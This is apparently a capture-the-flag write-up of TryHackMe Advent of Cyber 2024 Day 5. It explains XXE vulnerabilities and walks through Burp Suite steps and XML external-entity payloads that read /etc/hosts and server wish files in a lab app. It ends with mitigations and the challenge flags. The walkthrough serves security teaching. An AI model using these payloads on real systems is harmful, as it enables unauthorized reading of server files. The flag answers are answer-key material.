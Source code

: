 # 🎄 TryHackMe Advent of Cyber 2024 – Day 5: XXE Exploitation Challenge

## Challenge Overview 🎅

Day 5 takes us into the world of **XML External Entity (XXE) vulnerabilities**, highlighting how improper XML parsing can expose sensitive information or allow attackers to perform malicious actions. In this challenge, we exploit a vulnerability in Wareville's Christmas wishlist application, uncover hidden data, and investigate signs of possible sabotage in the development process.

## Objectives 🎯

1. Understand how XML and entities work to uncover the root cause of XXE vulnerabilities.
2. Exploit the XXE vulnerability to access restricted files.
3. Investigate and confirm suspicious modifications in the application's development history.

## Key Concepts 💡

### What is XML?
XML (eXtensible Markup Language) is a standardized way for systems to exchange structured data. Tags like `<name>` and `<address>` help organize the data into a human- and machine-readable format.

### Entities in XML
Entities act like placeholders in XML and can be used to:
- Repeat or reference internal data.
- Load external data or files using URLs.

### What is XXE?
XXE (XML External Entity) vulnerabilities occur when an XML parser fails to restrict the resolution of external entities, enabling attackers to:
- Access sensitive files (e.g., `/etc/passwd`).
- Send malicious requests to backend systems.
- Perform denial-of-service (DoS) or even remote code execution.

## Step 1: Identifying the XXE Vulnerability

### Setting Up Burp Suite
1. **Install Burp Suite:**
   - Launch Burp Suite. You can download it [here](https://portswigger.net/burp).
2. **Navigate to the Website:**
   - Open Burp's pre-configured browser and visit `http://MACHINE_IP/product.php`.
3. **Add a Product to the Wishlist:**
   - Click "Add to Wishlist" for a product, and intercept the request using Burp Suite's **Proxy** tab.

### Crafting the Payload
1. **Intercept the Request:**
   - The request sends XML like this:
     ```
     <wishlist>
       <user_id>1</user_id>
       <item>
         <product_id>1</product_id>
       </item>
     </wishlist>
     ```
2. **Modify the Payload:**
   - Replace the `<product_id>` tag with a reference to an external entity:
     ```
     <!--?xml version="1.0"?-->
     <!DOCTYPE foo [<!ENTITY payload SYSTEM "/etc/hosts"> ]>
     <wishlist>
       <user_id>1</user_id>
       <item>
         <product_id>&payload;</product_id>
       </item>
     </wishlist>
     ```
3. **Send the Updated Request:**
   - Use Burp Suite’s **Repeater** tab to send the modified request and observe the response. The response confirms access to `/etc/hosts`, validating the XXE vulnerability.
   - 
## Step 2: Exploiting the XXE Vulnerability

### Accessing Sensitive Files
1. **Target a Specific File:**
   - Update the payload to read from `/var/www/html/wishes/`:
     ```
     <!--?xml version="1.0"?-->
     <!DOCTYPE foo [<!ENTITY payload SYSTEM "/var/www/html/wishes/wish_1.txt"> ]>
     <wishlist>
       <user_id>1</user_id>
       <item>
         <product_id>&payload;</product_id>
       </item>
     </wishlist>
     ```
2. **Iterate Through Wishes:**
   - Change the file name incrementally (e.g., `wish_2.txt`, `wish_3.txt`) to discover additional wishes.

### Discovering the Flag
- On `wish_15.txt`, the response reveals:
  ```
  The product ID: Wish #15
  Name: Mayor Malware
  Address: Test
  ---------------------------------------
  Product: Waredy Cane
  Quantity: 1
  ---------------------------------------
  PS: The flag is THM{Brut3f0rc1n6_mY_w4y}
  ```

**Answer: `THM{Brut3f0rc1n6_mY_w4y}`**

## Step 3: Investigating the Sabotage

### Accessing the CHANGELOG
1. **Navigate to the Changelog:**
   - Visit `http://MACHINE_IP/CHANGELOG` directly.
2. **Review the Entries:**
   - The changelog reveals that a recent push introduced the vulnerable XML parser code. This evidence points to potential sabotage by Mayor Malware.

**Answer: `THM{m4y0r_m4lw4r3_b4ckd00rs}`**

## Lessons Learned 🌟

### Takeaways on XXE Exploitation
1. **Understanding XML and Entities:**
   - XML is powerful for structured data exchange but can pose security risks without proper validation.
2. **How XXE Exploitation Works:**
   - Injecting malicious entities into XML allows attackers to access restricted files or interact with backend systems.

### Mitigation Strategies
1. **Disable External Entity Loading:**
   - In PHP, use `libxml_disable_entity_loader(true)` to prevent external entities from being resolved.
2. **Validate and Sanitize Input:**
   - Ensure only expected XML structures are processed, blocking references to sensitive paths like `/etc/hosts`.
3. **Conduct Regular Security Audits:**
   - Review applications for vulnerabilities before deploying them to production.

## Tools Used 🛠️

1. **[Burp Suite](https://portswigger.net/burp):** Intercepted and modified HTTP requests to identify and exploit the XXE vulnerability.
2. **XML:** Crafted payloads to exploit the vulnerability.
3. **Browser:** Accessed the application and verified exploitation outcomes.

## Final Thoughts 🎁

Day 5’s challenge demonstrated the critical importance of secure coding and validation practices. By leveraging improperly sanitized XML parsing, we accessed sensitive information and uncovered sabotage evidence. This challenge reinforced:
- The dangers of XXE vulnerabilities in real-world applications.
- The need for thorough security testing during development.
- The importance of developer awareness regarding secure coding practices.

By addressing these lessons, developers and organizations can prevent vulnerabilities like XXE from becoming a real-world threat.

## Questions and Answers

1. **What is the flag discovered after navigating through the wishes?**  
   **Answer:** `THM{Brut3f0rc1n6_mY_w4y}`

2. **What is the flag seen on the possible proof of sabotage?**  
   **Answer:** `THM{m4y0r_m4lw4r3_b4ckd00rs}`

## Table of Contents 📚

- [Day 1: OPSEC Challenge](day1.md)
- [Day 2: Log Analysis](day2.md)
- [Day 3: Log Analysis](day3.md)
- [Day 4: Atomic Red Team](day4.md)
- [Day 6: Sandboxes](day6.md)
- [More Days to Come!](README.md)
```
